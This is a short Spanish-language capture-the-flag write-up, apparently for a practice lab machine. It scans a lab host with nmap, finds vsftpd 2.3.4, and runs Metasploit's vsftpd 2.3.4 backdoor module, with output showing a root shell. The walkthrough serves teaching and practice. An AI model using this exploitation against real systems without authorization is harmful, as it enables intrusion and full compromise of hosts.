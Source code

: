 ```yaml
---
description: '🧠 Dificultad: Muy fácil | 🔓22/07/2025'
---
```


# FirstHacking

Con `nmap` vemos que solo está abierto el puerto 21 FTP.

```bash
❯ nmap -sC -sV $IPTARGET
```

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-21 20:12 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.52 seconds
```

Como no tiene acceso para `anonymous`, un posible path para resolver la máquina sería buscar la versión del FTP en `metasploit` para ver si es vulnerable.

<figure><img src="../../.gitbook/assets/Pasted image 20250722021637 (2).png" alt=""><figcaption></figcaption></figure>

Probamos este backdoor.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
whoami
[*] Command shell session 1 opened (172.17.0.1:39081 -> 172.17.0.2:6200) at 2025-07-21 20:17:57 -0400

root
```
